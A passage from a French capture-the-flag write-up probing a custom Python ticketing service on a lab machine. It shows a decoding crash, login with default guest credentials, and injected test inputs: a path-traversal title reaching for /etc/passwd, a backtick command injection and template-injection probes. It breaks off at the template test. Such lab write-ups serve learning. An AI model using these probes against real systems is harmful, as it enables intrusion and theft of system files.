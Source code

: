 ## Je crois que j'ai un ticket

On a un service custom sur le port 31337. Visiblement c'est du Python car Nmap a réussi, sans faire exprès, à provoquer une exception.

C'est une simple erreur de décodage, on peut le reproduire facilement :

```console
$ echo -e "\xff\x7f\x00" | ncat 192.168.242.132 31337
username> Traceback (most recent call last):
  File "/opt/.tick-serv/tickets.py", line 105, in <module>
    main()
  File "/opt/.tick-serv/tickets.py", line 93, in main
    username = input("username> ")
  File "/usr/lib/python3.6/codecs.py", line 321, in decode
    (result, consumed) = self._buffer_decode(data, self.errors, final)
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xff in position 0: invalid start byte
```

Ça nous donne quelques indications mais rien de vraiment utile. Le serveur demande aussi un champ password qui est sujet au même bug.

Sur le port 5000 il y a comme un bugtracker fait maison. On trouve notemment cette issue :

> #### Remove default user guest from the ticket creation service.

Effectivement l'accès fonctionne. Le serveur permet de soumettre les tickets, le résultat est alors aussitôt visible sur l'appli web. J'ai testé quelques payloads classiques avant de tester l'injection de templates (STTI) :

{% raw %}
```console
$ ncat 192.168.242.132 31337 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.242.132:31337.
username> guest
password> guest

Welcome to our own ticketing system. This application is still under 
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> help

        help        Show this menu
        update      Update the ticketing software
        open        Open a new ticket
        close       Close an existing ticket
        exit        Exit
    
> open
Title: zozo
Description: test
> update
You are not authorized to update the system
Contact the system administrator for this
> open
Title: ../../../../../../../../../../../../../../../../../../etc/passwd
Description: plop
> open
Title: abc`id`
Description: desc`id`
> open
Title: {{ 5 + 7 }}   
Description: {{ 6 + 8 }}
```